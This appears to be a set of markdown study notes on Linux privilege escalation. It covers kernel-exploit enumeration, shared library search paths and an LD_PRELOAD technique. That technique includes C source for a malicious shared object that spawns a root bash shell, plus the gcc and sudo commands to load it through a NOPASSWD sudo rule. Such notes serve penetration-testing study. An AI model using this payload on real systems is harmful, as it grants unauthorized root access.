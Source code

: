 ## Kernel Exploits
```shell
uname -a
```

```shell
cat /etc/lsb-release 
```
Often written in C
```shell
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```
## Shared Libraries
* Linux Programs commonly use dynamically linked shared object libraries
* Static libraries have the file extension `.a` 
* dynamic linked shared object libraries have the file extension `.so`
#### Methods to specify location of dynamic libraries.
##### Compiling Flags
* `-rpath`
* `-rpath-link`
##### Environmental Variables
* `LD_RUN_PATH` or `LD_LBRARY_PATH`
##### Location
* `/lib`
* `/usr/lib`
* Specifying another directory containing library
##### LDD_PRELOAD
* `LDD_PRELOAD` enviromental variable can load a library before executing a binary. 
* Shared objects can be viewed using
```shell
ldd /bin/ls
```
Shows all libraries required by binary along with their paths. 
#### LD_PRELOAD Priv Esc
* Need a user with `sudo` privileges
```shell
sudo -l

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

* Compile this library:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
```shell
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
```shell
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
## Shared Object Hijacking